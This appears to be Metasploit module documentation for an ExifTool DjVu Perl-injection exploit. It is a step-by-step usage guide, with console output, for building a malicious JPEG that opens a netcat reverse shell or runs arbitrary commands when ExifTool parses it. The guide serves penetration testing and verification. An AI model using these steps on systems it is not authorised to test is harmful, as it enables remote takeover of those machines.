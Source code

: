 ## Vulnerable Application

ExifTool is vulnerable to Perl injection when parsing a crafted DjVu ANT (Annotation) section. Using the
'HasselbladExif' EXIF field, a DjVu file containing the ANT data can be embedded in another file, such as a JPEG or
TIFF file. Upon passing a crafted DjVu file or a "wrapped" DjVu file to ExifTool, arbitrary Perl code can be executed.

Perl backticks are used to execute shell commands.

The vulnerability affects ExifTool 7.44 through 12.23 inclusive.

A copy of the vulnerable software can be obtained at <https://github.com/exiftool/exiftool/releases/tag/12.23>

The `.tar.gz` can simply be unpacked and used as-is:

```plain
% tar -xf 12.23.tar.gz 

% ./exiftool-12.23/exiftool exiftool-12.23/t/images/Writer.jpg
ExifTool Version Number         : 12.23
File Name                       : Writer.jpg
Directory                       : exiftool-12.23/t/images
File Size                       : 251 bytes
File Modification Date/Time     : 2021:04:02 05:24:21+11:00
File Access Date/Time           : 2021:05:04 20:57:46+10:00
File Inode Change Date/Time     : 2021:05:04 20:57:46+10:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 8
Image Height                    : 8
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 8x8
Megapixels                      : 0.000064
```

## Verification Steps

1. Obtain the vulnerable application
2. Start `msfconsole`
3. Do: `use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection`
4. Set the payload and payload options as appropriate
5. Do: `exploit`
6. Start a handler
7. Transfer the generated `msf.jpg` file to the machine running the vulnerable application
8. On the victim machine, do `exiftool msf.jpg`
9. You should get a shell

## Options

* `TARGET` - you can choose between JPEG (Default), TIFF and DjVu
* `FILENAME` - the name of the image file to produce. Note that it is safe to rename a file after it has been generated.

## Scenarios

### ExifTool 12.23 - Reverse TCP shell

Generate the image file

```plain
msf > use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LPORT 4444
LPORT => 4444
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > exploit

[+] msf.jpg stored at /home/justin/.msf4/local/msf.jpg
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > 
```

Start a handler

```plain
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
```

As the victim, use ExifTool to analyse the image

```plain
% ~/exiftool-12.23/exiftool /home/justin/.msf4/local/msf.jpg
```

ExifTool will hang and a shell session will be opened

```plain
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:38606) at 2021-05-04 21:07:37 +1000

id
uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

### ExifTool 12.23 - Arbitrary command execution

Generate the image file

```plain
msf > use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set PAYLOAD cmd/unix/generic 
PAYLOAD => cmd/unix/generic
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set CMD 'echo "Pwned as $(id)"'
CMD => echo "Pwned as $(id)"
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > exploit

[+] msf.jpg stored at /home/justin/.msf4/local/msf.jpg
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > 
```

As the victim, use ExifTool to analyse the image. The STDOUT of CMD will be reflected in the 'Author' EXIF field.

```plain
% ~/exiftool-12.23/exiftool /home/justin/.msf4/local/msf.jpg | grep Author
Author                          : .Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo).
```
